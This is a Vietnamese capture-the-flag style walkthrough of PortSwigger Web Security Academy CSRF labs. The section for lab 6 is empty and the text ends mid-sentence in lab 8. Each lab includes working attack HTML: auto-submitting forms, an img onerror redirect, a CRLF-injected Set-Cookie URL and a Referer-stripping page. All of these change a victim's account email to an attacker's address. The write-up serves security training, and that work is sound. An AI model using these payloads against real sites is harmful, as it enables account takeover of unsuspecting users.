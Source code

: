 # 1. CSRF vulnerability with no defenses
Vào exploit server, cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0afb00eb04d9b8bec0d9405a00290069.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker2@email.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 2. CSRF where token validation depends on request method
Request thay đổi email là `POST /my-account/change-email` với hai tham số `email` và `csrf`. Tuy nhiên nhận thấy nếu ta thay đổi request thành `GET /my-account/change-email?email=attacker%40gmail.com`, cho dù không có tham số `csrf` thì email vẫn bị thay đổi thành công

Vào exploit server cấu hình đoạn XML sau:

```
<img src=1 onerror="document.location='https://0a06005e03421b53c1c14436007600ad.web-security-academy.net/my-account/change-email?email=attacker@gmail.com'">
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 3. CSRF where token validation depends on token being present
Ta thấy khi trong request không có tham số `csrf`, email vẫn bị thay đổi. Như vậy ta vào exploit server và cấu hình đoạn HTML:

```
<form method="POST" action="https://0a35003f047cea06c1019ee1003c006c.web-security-academy.net/my-account/change-email" id="form">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 4. CSRF where token is not tied to user session
Đăng nhập vào tài khoản wiener:peter rồi vào trang "My account", lưu lại csrf token. Sau đó logout rồi đăng nhập vào tài khoản carlos:montoya, dùng session của carlos và csrf token đã lưu của wiener để submit một request `POST /my-account/change-email`. Kết quả email bị thay đổi. Như vậy giữa csrf và session không có mối liên hệ với nhau. Với một csrf token chưa được sử dụng, ta có thể submit với bất kỳ session nào.

Ta đăng nhập lại tài khoản wiener:peter, lưu lại csrf token là `w9lcvACTQ0fT30znoZiPT42ILgGHkFnF`, sau đó và exploit server để cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0a1a008e03260d9ac1a3879500b300b3.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="w9lcvACTQ0fT30znoZiPT42ILgGHkFnF">
</form>

<script>form.submit();</script>
```

Sau khi click "Deliver to victim", bài lab được giải thành công.

# 5. CSRF where token is tied to non-session cookie
Ta thấy trong form thay đổi email có chứa csrf token, tuy nhiên token này phụ thuộc vào cookie `csrfKey`, miễn là `csrfKey` và thuộc tính `csrf` phù hợp với nhau thì có thể submit thành công.

Trong chức năng search của website, thử `/?search=abc` thì thấy trong response có header `Set-Cookie: LastSearchTerm=abc; Secure; HttpOnly`. Ta sẽ thử xem có thể thiết lập một cookie mới với chức năng Search hay không. Gửi request `GET /?search=abc%0D%0ASet-Cookie:+abc%3Ddef`, ta thấy header `Set-Cookie` trong response đã bị xuống dòng và thêm một header Set-Cookie mới:

![image](https://user-images.githubusercontent.com/103978452/209636281-7492097f-eaf0-4cda-bf42-fcd4fbda9dd6.png)

Như vậy, ta thử ghi đè lên cookie csrfKey bằng cách gửi request: `GET /?search=abc%0D%0ASet-Cookie%3A+csrfKey%3D4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx%3B+Path%3D%2F%3B+SameSite%3DNone`.

Kết quả như sau:

![image](https://user-images.githubusercontent.com/103978452/209636456-760b8977-96e6-4c40-85f9-94220d22f43b.png)

Như vậy, ta có thể thay đổi cookie csrfKey của nạn nhân. Ta có kịch bản tấn công như sau:

1) Từ session của mình, lấy ra cookie `csrfKey=4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx` và token `csrf=Bt0qvdZVXoUpfTmoDGy54RJIxytRR1SP`
2) Dùng tag `<img>` để thay đổi cookie `csrfKey` của nạn nhân
3) Gửi request đổi email với csrf token đã có

Vào exploit server và cấu hình đoạn HTML sau:
```
<img src="https://0aa900e403ad1a02c0b0125d00b000d9.web-security-academy.net/?search=abc%0D%0ASet-Cookie%3A+csrfKey%3D4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx%3B+Path%3D%2F%3B+SameSite%3DNone">
<form id="form" method="POST" action="https://0aa900e403ad1a02c0b0125d00b000d9.web-security-academy.net/my-account/change-email">
<input type="hidden" value="attacker00022@gmail.com" name="email">
<input type="hidden" value="Bt0qvdZVXoUpfTmoDGy54RJIxytRR1SP" name="csrf">
</form>
<script>form.submit()</script>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 6. CSRF where token is duplicated in cookie

# 7. CSRF where Referer validation depends on header being present
Ta thấy việc email có được thay đổi thành công hay không phụ thuộc vào việc Referer header có domain là `https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net` hay không. Tuy nhiên nếu ta xóa đi Referer header, email vẫn bị thay đổi.

Như vậy, ta vào exploit server và cấu hình đoạn HTML sau:
```
<html>
<head>
<meta name="referrer" content="never">
</head>
<body>
<form id="form" method="POST" action="https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
</body>
</html>
```

Thẻ `<meta name="referrer" content="never">` sẽ ngăn không đưa dữ liệu vào header Referer của request tiếp theo. Sau khi click "Deliver to victim", kết quả thành công. 

# 8. CSRF with broken Referer validation
Ta thấy chỉ khi Referer header có domain là `https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net` thì request đổi email mới được thực hiện thành công. Thử với payload là `https://attacker.com#https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net`, kết quả email vẫn bị đổi. Như vậy server chỉ kiểm tra trong Referer header có chứa chuỗi `https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net` hay không.

Vào exploit server
